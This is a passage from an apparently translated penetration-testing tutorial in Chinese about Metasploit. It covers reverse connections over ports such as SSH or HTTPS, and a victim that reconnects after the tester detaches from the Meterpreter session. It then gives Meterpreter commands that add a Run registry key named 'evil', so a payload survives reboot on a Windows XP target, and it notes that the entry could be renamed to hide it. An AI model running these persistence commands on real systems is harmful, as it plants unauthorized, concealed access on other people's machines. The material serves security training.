 同样，如果我们想要将端口更改为 SSH、HTTPS 或任何我们认为可以离开我们正在测试的环境的端口，我们是自由的。要了解这种能力有多强大，继续让客户端与你连接。在 Meterpreter shell 中，输入`detach`退出会话；一旦你退出，受害者就会重新连接到你。

这一点的一个例子如下截图所示：

![利用客户端配置](img/477-1_12_28.jpg)

我们接下来要尝试的是通过将代码复制到注册表中来设置受害者，以便攻击即使在重启后也能生存。在 Meterpreter shell 中，输入以下命令：

```
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v evil -d 'C:\windows\https.exe'
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

```

使用这些命令的结果示例如下截图所示：

![利用客户端配置](img/477-1_12_29.jpg)

通过这些命令，我们首先枚举了注册表，然后设置了引用启动时的程序。正如第三个命令所示，`evil`程序现在位于注册表键中。当然，如果我们试图隐藏它，我们会给它取一个别的名字。我们可以通过访问 Windows XP 机器并导航到**开始** | **运行** | **regedit**并搜索程序来验证程序是否已经植入。这一点的一个例子如下截图所示：

![利用客户端配置](img/477-1_12_31.jpg)
